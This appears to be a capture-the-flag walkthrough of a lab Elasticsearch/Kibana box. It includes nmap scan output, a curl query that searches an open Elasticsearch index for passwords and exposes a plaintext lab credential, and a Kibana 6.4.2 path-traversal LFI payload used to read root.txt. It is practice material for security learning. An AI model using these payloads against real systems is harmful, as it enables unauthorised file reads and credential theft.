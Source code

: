 # Elastic search database

-----

## nmap results 

>[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-15 03:06 EDT
Nmap scan report for 10.10.94.124 (10.10.94.124)
Host is up (0.26s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 0a:ee:6d:36:10:72:ce:f0:ef:40:9e:63:52:a9:86:44 (RSA)
|   256 11:6e:8f:7f:15:66:e3:03:b1:c4:55:f8:e7:bb:59:23 (ECDSA)
|_  256 b3:12:7a:7f:ac:89:72:c9:25:88:96:20:ad:c7:5b:4a (ED25519)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.7.4)
|_http-server-header: SimpleHTTP/0.6 Python/3.7.4
|_http-title: Directory listing for /
9200/tcp open  http    Elasticsearch REST API 6.4.2 (name: sn6hfBl; cluster: elasticsearch; Lucene 7.4.0)
| http-methods: 
|_  Potentially risky methods: DELETE
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).

------

--> let's goto port `8000` 

--> and i found this logs file 

![[Pasted image 20210815035155.png]]

--> i don't know what it is so let's goto next port which is `9200` for elasticsearch database 

--> we have hint 

![[Pasted image 20210815035305.png]]

--> so i googled it and found the curl command to search for `password` string 

```c
curl -X GET "<ip>:9200_search?q=password&pretty"
```

--> ans we got the password !

![[Pasted image 20210815035459.png]]

```
hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf
```

----

## kibana

--> now we have to read the `root.txt` file so there is mentioned `kibana` in question 

![[Pasted image 20210815035602.png]]

--> so i searched for default port of kibana and i found port `5601`

--> let's run nmap for this port 

![[Pasted image 20210815035925.png]]

--> and we can see `5601` port is open and it's running `kabana` 

--> so Let's goto that port and let's see what we get

--> and we got this beutiful interface 

![[Pasted image 20210815040047.png]]

----

## LFI

--> i found the version of kibana which was `6.4.2` 

--> after that i search on google for `kibana 6.4.2 exploit-db` and found LFI exploit 

![[Pasted image 20210815040533.png]]

--> payload : 

```
/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt
```

--> so Let's add this and see what happens

--> nothing happened on webpage but we have the log files so let's download that and search for `root.txt`

![[Pasted image 20210815040801.png]]

--> and i found one error message in  the logs 

```
someELKfun is not defined\n    at Object.<anonymous> (/root.txt:1:6)\n
```

--> so `someELKfun` should be the answer 

--> and it was the right answer !

-----